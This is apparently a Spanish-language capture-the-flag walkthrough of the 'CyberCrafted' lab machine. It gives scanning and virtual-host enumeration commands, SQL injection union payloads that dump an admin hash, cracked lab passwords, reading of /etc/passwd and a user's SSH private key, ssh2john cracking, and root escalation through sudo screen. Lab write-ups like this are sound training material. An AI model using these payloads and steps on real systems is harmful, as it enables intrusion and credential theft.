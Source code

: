 ### Tags: `Virtual Hosting` `SQLI` `ssh2john`

# Escaneo (*22,80,25565*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn ip -oN escaneo
```
![image](https://github.com/user-attachments/assets/f0272aa8-5cfc-4150-a6fe-e7be9d396599)

# Web port80

Encontramos un dominio que lo añadimos sal  `etc/hosts`

![image](https://github.com/user-attachments/assets/9a964c02-b302-4e33-8090-8537bf3a52a8)

Ahora visualizamos la web y no había nada pero cuando hicimos `Ctrl + u` encontramos esto

![image](https://github.com/user-attachments/assets/c1ce8331-fd13-4d65-b70d-4a6d4ba51e1f)

## Gobuster (**subdominios**)

```ruby
gobuster vhost -u http://cybercrafted.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Encontramos estos subdominios los agregamos al `etc/hosts`

![image](https://github.com/user-attachments/assets/be7fc1ce-5590-4615-a596-478575e2909a)

En los 2 (que marcamos en rojo) había un **panel de login** que era el mismo --> (por este lado no es la vía)

![image](https://github.com/user-attachments/assets/99e08865-a65c-40cc-b483-4a6acd18f59c)

También había un subdominio `www.store.cybercrafted.thm` y haciendo Gobuster encontramos este `search.php`

![image](https://github.com/user-attachments/assets/dd9247cc-8988-49cd-a414-e181d107ef53)

```ruby
gobuster dir -u http://www.store.cybercrafted.thm/  -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php --no-error
```

![image](https://github.com/user-attachments/assets/40e00520-edb0-48ef-939c-e7e093ec3d1d)
![image](https://github.com/user-attachments/assets/51dca3c3-8ae7-4158-b14a-b2a6bc9b600b)

# SQLI (**BurpSuite**)

Observamos que es panel es a vulnerable `sql injection`, si poníamos `'or 1=1 -- -` nos muestra ítems que no aparecían antes. Interceptamos la petición con Burp y con `'order by 4-- -` supimos que había cuatro columnas.
Con este comando `'union select NULL,NULL,NULL,table_name FROM information_schema.tables -- -` observamos una tabla llamada `admin`

![image](https://github.com/user-attachments/assets/36d09945-f699-4884-80ed-2b5ad6936794)

Con este comando `'union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_name = 'admin' -- -`  enumeramos las tablas de `admin`.

![image](https://github.com/user-attachments/assets/a8fb8bf0-294b-428f-90a8-8cf8e2bfec6a)

Obtenemos el hash y el user de esta forma: `'union select NULL,NULL,user,hash from admin -- -`

 ![image](https://github.com/user-attachments/assets/ea4f3a0a-8016-4219-a506-39add30328c1)

Tenemos un usuario y una contraseña que la Desencriptamos en [CrackStations](https://crackstation.net/) --> `xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01`, `diamond123456789`

![image](https://github.com/user-attachments/assets/9aa6cb56-97bc-47c3-acef-61056f9c56dd)

Probamos las credenciales para el **panel** y funcionó!

![image](https://github.com/user-attachments/assets/90b65816-1b04-4722-a9d6-4e00e1f23a66)

# Explotación

Tamos dentro y tenemos ejecución de comandos 

![image](https://github.com/user-attachments/assets/aae57b06-18d3-43a9-9023-b137cb69a32d)

Listando el `etc/passwd` vemos 

![image](https://github.com/user-attachments/assets/d1e3d618-3b71-4d65-ab29-c15368de52a3)

Pudimos obtener la `id_rsa` de `xxultimatecreeperxx` 

```ruby 
cat /home/xxultimatecreeperxx/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/2b5f035f-3e21-4597-a07c-419b3bf97c79)

Como esta encriptado hacemos lo siguiente:

```ruby
 ssh2john id_rsa > hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la contraseña `creepin2006` para conectarnos por SSH

![image](https://github.com/user-attachments/assets/6375f344-93dc-4da4-80d3-eb09e6c5493f)

## SSH

Nos conectamos por SSH como el user **xxultimatecreeperxx** y con la contraseña que encontramos anteriormente 

```css
 chmod 600 id_rsa
 ssh xxultimatecreeperxx@10.10.126.43 -i id_rsa
```
![image](https://github.com/user-attachments/assets/403ee93f-6537-461f-b9a4-2121b3846e78)

# Escalada (`cybercrafted`)

Dentro de `/opt` tenemos esto

![image](https://github.com/user-attachments/assets/73cc4f92-5518-4498-b3bb-c5aa1fdbaf31)

Encontramos la contraseña de *cybercrafted* en  un archivo llamado `log.txt` , `JavaEdition>Bedrock`

![image](https://github.com/user-attachments/assets/3057b981-55c1-4ae7-98fe-f9c2abc4b2db)
![image](https://github.com/user-attachments/assets/3a793de4-f81e-41f7-b038-4b175fce2fec)

# Escalada ROOT

Vemos que poniendo `sudo -l` tenemos esto esto que podemos ejecutar como root:

![image](https://github.com/user-attachments/assets/3a60cf66-d76e-4182-a2d8-5f49027b678e)

Buscando en internet en este [Enlace](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-screen-privilege-escalation/) nos dice que acceder como hay que hacer esto:

```ruby
 sudo /usr/bin/screen -r cybercrafted
 Ctrl+a+c
```

![image](https://github.com/user-attachments/assets/7893a598-1872-4613-9961-a9c1b3099d9c)


